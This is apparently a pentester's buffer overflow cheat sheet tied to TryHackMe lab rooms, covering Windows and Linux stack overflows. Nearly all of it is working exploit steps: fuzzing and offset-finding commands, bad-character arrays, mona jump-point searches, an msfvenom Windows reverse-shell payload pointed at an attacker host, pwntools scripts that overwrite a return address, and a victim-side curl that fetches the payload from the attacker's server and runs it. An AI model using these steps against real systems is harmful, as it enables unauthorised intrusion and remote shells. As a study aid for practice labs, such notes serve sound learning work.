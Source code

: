 # Buffer Overflow

## **Windows**

**Examples**

[buffer-overflow-prep.md](../../../walkthroughs/tryhackme/buffer-overflow-prep.md "mention")[brainstorm.md](../../../walkthroughs/tryhackme/brainstorm.md "mention")[gatekeeper.md](../../../walkthroughs/tryhackme/gatekeeper.md "mention")[brainpan-1.md](../../../walkthroughs/tryhackme/brainpan-1.md "mention")

## **Crash Replication & Controlling EIP**

Run fuzzer against program to find how many bytes it takes to crash the program.

**Option #1**

**Kali**

```
python fuzzer.py $VICTIM $VICTIMPORT
```

**Option #2**&#x20;

**Kali**

```
python -c 'print("A"* 3000)'
nc -v $TESTMACHINE 9999
```

Run following command and add output to your buffer in your exploit program.

**Option #1**

**Kali**

```
 msf-pattern_create -l $bytesToCrashProgram
```

**Option #2**&#x20;

I then used pattern\_create to make my payload and then added to my new script exploit.py

```
/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l $bytesToCrashProgram
```

Run the exploitable program within Immunity Debugger with your updated exploit code. then you could be able to find the EIP offset. Update your code to have this many As be sent. Then add 4 Bs and remove the output from msf-pattern\_create. Rerun again and the EIP should be set as your Bs(42424242)

**Immunity Debugger**

```
!mona findmsp -distance $bytesToCrashProgram
```

### Finding Bad Characters

**Bad Chars #1**

```
badChars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

**Bad Chars #2**

```
badChars = (
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

### Finding a Jump Point

Now we need to find a place to jump to to run our payload.  We find there is only one place that will meets our conditions that we need which is an address with  SafeSEH, ASLR, and NXCompat disabled and the  memory address doesn't start with 0x00. ex: 0x0040000 won't work, 0x100000 will work. essfunc.dll meets this criteria.&#x20;

**Immunity Debugger**

```
!mona modules
```



**Immunity Debugger**

```
!mona find -s "\xff\xe4" -m $DLL.dll
```

### Exploit

Now that we have the return address to use, we just need to generate our payload without using the bad characters found previously. I also added 16 NOPs before the payload as suggested in the room. All that is left is to is to update our code with our payload and run it against the program.

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

## **Linux**

**Examples**

[obscure.md](../../../walkthroughs/tryhackme/obscure.md "mention")

### **Crash Replication & Controlling EIP**

**Kali**

```
cyclic 256
```

**Kali**

```
gdb ret
```

**Kali(gdb)**

```
r
```

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

This tells us it crashes after 136 characters

**Kali**

```
cyclic -l 0x6261616a
```

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

We see the win function is located at 0x400646

**Kali**

```
objdump -t ret
```

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Confirmed it crashes after 136.

**Kali**

```
python -c 'print("A"* 137)' | ./ret 
```

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

I wanted to confirm it would crash where we expected so I added the program into a for loop

**payload.py - version 2**&#x20;

```
from pwn import *
import subprocess

for i in range(130, 140):
	payload = b'A'*i + p64(0x400646)
	print ("Current value: " + str(i))

	f = open('/root/payload.bin', 'wb')
	f.write(payload)
	f.close
	os.system("(cat payload.bin; cat) | ./ret")
```

We can see 137 did work on our local box and got us to the win function when adding it's address to the script

**Kali**

```
python payload.py 
```

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Now to create our payload and send it to the victim

**payload.py - version 2**&#x20;

```
from pwn import *

payload = b'A'*136 + p64(0x400646)

f = open('/root/payload.bin', 'wb')
f.write(payload)
f.close
```

Testing that the payload still works on our local machine.

**Kali**

```
(cat payload.bin; cat) | ./ret
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 -m SimpleHTTPServer 82
```

We are root but only within the docker container.

**Victim**

```
cd /tmp
curl http://$KALI:82/payload.bin -o payload.bin
(cat payload.bin; cat) | /ret
```

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

## &#x20;<a href="#find-pages" id="find-pages"></a>

